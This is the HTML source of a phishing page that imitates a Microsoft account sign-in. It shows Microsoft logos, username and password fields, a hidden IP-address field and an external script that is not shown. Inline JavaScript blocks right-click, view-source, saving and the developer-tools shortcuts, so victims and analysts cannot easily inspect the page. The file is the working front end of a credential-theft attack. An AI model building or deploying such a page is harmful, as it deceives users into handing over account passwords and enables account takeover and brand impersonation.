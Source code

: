 <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Sign in to your Microsoft account</title>
	<link rel="shortcut icon" href="https://upload.wikimedia.org/wikipedia/commons/thumb/4/44/Microsoft_logo.svg/1024px-Microsoft_logo.svg.png?20210729021049">
    <link rel="stylesheet" href="./css/style.css">
</head>
<body>
<div class="login-container">
        <form action="" id="form">
            <img src="https://blogs.microsoft.com/wp-content/uploads/prod/2012/08/8867.Microsoft_5F00_Logo_2D00_for_2D00_screen-1920x706.jpg" alt="MICROSOFT OUTLOOK" class="logo">
            <h2>Sign in</h2>
            <div class="input-group">
                <input type="text" placeholder="Username, email, or mobile" id="usr" required>
            </div>
            <div class="input-group">
                <input type="password" placeholder="Password" id="pwd" required>
            </div>
            <input type="text" id="ipaddress" hidden>
            <button type="submit" id="sub">Next</button>
            <div class="options">
                <a href="#">Can't access your account?</a>
            </div>
        </form>
    </div>
    <script src="scripts.js"></script>
	
<script>
// Disable right-click context menu
document.addEventListener('contextmenu', function(event) {
    event.preventDefault();
});

// Disable common keyboard shortcuts
document.addEventListener('keydown', function(event) {
    if (event.ctrlKey || event.metaKey) {
        switch (event.key) {
            case 'u': // Ctrl+U
            case 's': // Ctrl+S
            case 'p': // Ctrl+P
                event.preventDefault();
                break;
            case 'i': // Ctrl+Shift+I
            case 'j': // Ctrl+Shift+J
                if (event.shiftKey) {
                    event.preventDefault();
                }
                break;
            case 'c': // Ctrl+Shift+C
                if (event.shiftKey) {
                    event.preventDefault();
                }
                break;
            case 'k': // Ctrl+Shift+K (Firefox)
                if (event.shiftKey) {
                    event.preventDefault();
                }
                break;
        }
    }
});